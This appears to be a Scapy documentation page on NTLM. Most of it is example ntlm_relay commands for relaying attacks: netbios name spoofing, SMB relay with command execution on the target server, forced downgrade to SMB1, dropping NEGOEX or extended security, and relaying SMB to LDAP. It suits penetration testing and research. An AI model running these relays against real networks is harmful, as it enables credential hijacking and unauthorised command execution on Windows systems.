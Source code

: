 NTLM
====

Scapy provides dissection & build methods for NTLM and other Windows mechanisms.
In particular, the ``ntlm_relay`` command allows to perform some NTLM relaying attacks.

Examples
________


**Requirement: Answer to all netbios requests with the local IP**

.. code::
    netbios_announce(iface="virbr0")

**SMB <-> SMB: Perform a SMB2 relay**

.. code::
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0")

.. warning::
    The legitimate client will the validity of the negotiated flags by using a signed IOCTL ``FSCTL_VALIDATE_NEGOTIATE_INFO`` which we cannot fake, therefore losing the connection.
    We however still have created an authenticated illegitimate client to the server, where we won't be performing that check, that we can use. See the case right below.

**SMB <-> SMB: Perform a SMB2 relay. Close the legitimate client & run commands on the server**

.. note::
    Setting ``ECHO`` to ``False`` on the server instantly terminates the connection once Authentication is successful.
    We set ``RUN_SCRIPT`` to ``True`` to run a script (in ``DO_RUN_SCRIPT`` in the automaton) once Authentication is successful. Note that ``REAL_HOSTNAME`` is required in this case.

.. code::
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", server_kwargs={"ECHO": False}, client_kwargs={"REAL_HOSTNAME": "WIN1", "RUN_SCRIPT": True})

**SMB <-> SMB: SMB relay with force downgrade to SMB1**

.. note::
    ``server_kwargs={"REAL_HOSTNAME":"WIN1"}`` is compulsory on SMB1 if the name that you are spoofing is different from the real name. Set this to avoid getting a ``STATUS_DUPLICATE_NAME``

.. code::
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, server_kwargs={"REAL_HOSTNAME":"WIN1"})

**SMB <-> SMB: SMB relay with force downgrade to SMB1 & drop NEGOEX**

.. code::
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, server_kwargs={"PASS_NEGOEX": False, "REAL_HOSTNAME":"WIN1"})

**SMB <-> SMB: SMB relay with force downgrade to SMB1 & drop extended security**

This probably won't work.

.. code::
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, server_kwargs={"REAL_HOSTNAME":"WIN1"}, DROP_EXTENDED_SECURITY=True)

**SMB2 <-> LDAP: relay SMB's NTLM to an LDAP server**

.. code::
    load_layer("ldap")
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_LDAP_Client, iface="virbr0")
